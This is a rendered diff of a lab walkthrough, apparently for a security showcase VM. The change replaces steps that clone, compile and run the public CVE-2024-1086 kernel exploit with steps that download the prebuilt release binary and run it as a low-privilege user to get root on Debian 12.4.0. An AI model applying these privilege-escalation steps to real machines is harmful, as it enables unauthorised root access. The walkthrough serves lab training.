

Before and after one commit to KOliver94/security-showcase, a Markdown page: docs/walkthrough.md, the part around the change. GitHub-like rendering.

Commit message:
Use prebuilt CVE-2024-1086 release binary

````diff
--- a/docs/walkthrough.md
+++ b/docs/walkthrough.md
@@ -253,22 +253,18 @@ The target is Debian **12.4.0**, whose kernel is vulnerable to **CVE-2024-1086**
 
 - https://github.com/Notselwyn/CVE-2024-1086
 
-High level (follow the PoC's own README for specifics):
+You don't need to compile it — Notselwyn publishes prebuilt exploit binaries on the project's **Releases** page:
 
-```bash
-# as bob, on the target
-git clone https://github.com/Notselwyn/CVE-2024-1086
-cd CVE-2024-1086
-make
-./exploit        # drops you to a root shell on a vulnerable kernel
-```
+- https://github.com/Notselwyn/CVE-2024-1086/releases
+
+Grab the matching release binary and run it on the target as `bob`, following the project's own README. On a vulnerable kernel it returns a root shell:
 
 ```bash
 whoami
 # root
 ```
 
-> If you need to stage the exploit without internet on the VM, build it on Kali and copy it over with `scp`.
+> If the target has no internet, download the release binary on Kali and copy it over with `scp`.
 
 > ⚠️ Kernel exploits are inherently unstable. On rare occasions the PoC can crash or hang the VM. If that happens, reset and start over — `vagrant reload debian_vm` (or `vagrant destroy debian_vm && vagrant up debian_vm` for a clean slate).
 
````
